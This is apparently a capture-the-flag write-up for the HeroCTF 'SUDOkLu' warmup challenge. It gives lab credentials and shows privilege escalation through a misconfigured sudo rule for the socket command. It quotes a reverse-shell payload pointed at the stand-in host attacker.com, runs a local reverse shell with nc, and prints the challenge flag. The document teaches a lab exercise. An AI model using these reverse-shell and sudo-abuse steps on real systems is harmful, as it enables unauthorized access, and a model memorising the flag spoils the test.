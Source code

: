 # SUDOkLu

### Category

System

### Description

This is a warmup to get you going. Your task is to read `/home/privilegeduser/flag.txt`. For our new commers, the title might steer you in the right direction ;). Good luck!

Credentials: `user:password123`

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

In this challenge you have to exploit a very common misconfiguration on linux systems.

```plain
$ sudo -l
Matching Defaults entries for user on 5e21499cd6f4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User user may run the following commands on 5e21499cd6f4:
    (privilegeduser) NOPASSWD: /usr/bin/socket
```

The `-l` option allows you to check yout user's privileges. Here you can see that he can run /usr/bin/socket as root.

https://gtfobins.github.io/ is a great ressource everytime you encouter this case scenario.

Just go to the page about the socket command, and you will find the following payload:

```plain
RHOST=attacker.com
RPORT=12345
socket -qvp '/bin/sh -i' $RHOST $RPORT
```

In our case, let's build a local reverse shell:

Terminal 1:

```plain
$ nc -nlvp 8888
```

Terminal 2:

```plain
$ sudo -u privilegeduser /usr/bin/socket -qvp '/bin/sh -i' localhost 8888
```

You should get a shell as privilegeduser in Terminal 1!

```plain
Connection received on 127.0.0.1 38344
$ id
uid=1001(privilegeduser) gid=1001(privilegeduser) groups=1001(privilegeduser)
$ cat /home/privilegeduser/flag.txt
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```

### Flag

```plain
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```
